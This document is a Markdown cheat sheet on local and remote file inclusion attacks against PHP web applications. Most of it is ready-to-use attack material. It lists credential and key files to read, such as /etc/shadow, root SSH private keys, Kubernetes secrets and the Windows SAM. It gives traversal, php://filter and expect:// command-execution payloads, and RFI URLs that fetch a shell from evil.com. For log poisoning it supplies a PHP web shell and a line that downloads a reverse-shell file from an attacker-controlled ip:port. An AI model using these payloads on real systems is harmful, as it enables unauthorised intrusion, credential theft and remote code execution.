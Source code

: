 # LFI & RFI
### List
- UseFul LFI Files
	- LFI Payloads
- RFI Example
- Log Poisoning


# LFI
---
## Useful LFI files

### Linux
`/etc/passwd`

`/etc/shadow`

`/etc/issue`

`/etc/group`

`/etc/hostname`

`/etc/ssh/ssh_config`

`/etc/ssh/sshd_config`

`/root/.ssh/id_rsa`

`/root/.ssh/authorized_keys`

`/home/user/.ssh/authorized_keys`

`/home/user/.ssh/id_rsa`

`/proc/[0-9]*/fd/[0-9]*`

`/proc/mounts`

`/home/$USER/.bash_history`

`/home/$USER/.ssh/id_rsa`

`/var/run/secrets/kubernetes.io/serviceaccount`

`/var/lib/mlocate/mlocate.db`

`/var/lib/mlocate.db`


### Apache
`/etc/apache2/apache2.conf`

`/usr/local/etc/apache2/httpd.conf`

`/etc/httpd/conf/httpd.conf`

`Red Hat/CentOS/Fedora Linux -> /var/log/httpd/access_log`

`Debian/Ubuntu -> /var/log/apache2/access.log`

`FreeBSD -> /var/log/httpd-access.log`

`/var/log/apache/access.log`

`/var/log/apache/error.log`

`/var/log/apache2/access.log`

`/var/log/apache/error.log`

`/etc/apache2/sites-available/00-default.conf`


### MySQL
`/var/lib/mysql/mysql/user.frm`

`/var/lib/mysql/mysql/user.MYD`

`/var/lib/mysql/mysql/user.MYI`


### Windows
`/boot.ini`

`/autoexec.bat`

`/windows/system32/drivers/etc/hosts`

`/windows/repair/SAM`

`/windows/panther/unattended.xml`

`/windows/panther/unattend/unattended.xml`

`/windows/system32/license.rtf`

`/windows/system32/eula.txt`


## LFI Payloads
---
### Directory traversal

```
?file=../../../../../../../etc/passwd
```

### PHP Wrapper php://file
```
?page=expect://ls
```

### PHP Wrapper php://filter
```
?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
```

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
```

### some other useful payloads that i found online
```
http://example.com/index.php?page=etc/passwd
```

```
http://example.com/index.php?page=etc/passwd%00
```

```
http://example.com/index.php?page=../../etc/passwd
```

```
http://example.com/index.php?page=%252e%252e%252f
```

```
http://example.com/index.php?page=....//....//etc/passwd
```


# RFI
---
### Basic RFI
```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

### RFI Wrapper EXPECT
```
http://example.com/index.php?page=php:expect://id
http://example.com/index.php?page=php:expect://ls
```

# Log Poisoning
---
### Basic  Log Poisoning

```php
<?php system($\_GET\['cmd'\]); \>>
```

```php
<?php file_put_contents('rev.php', file_get_contents('http://ip:port/rev.php')) ?>
```
\# note you should change ip and port in this one and you have to setup a HTTP server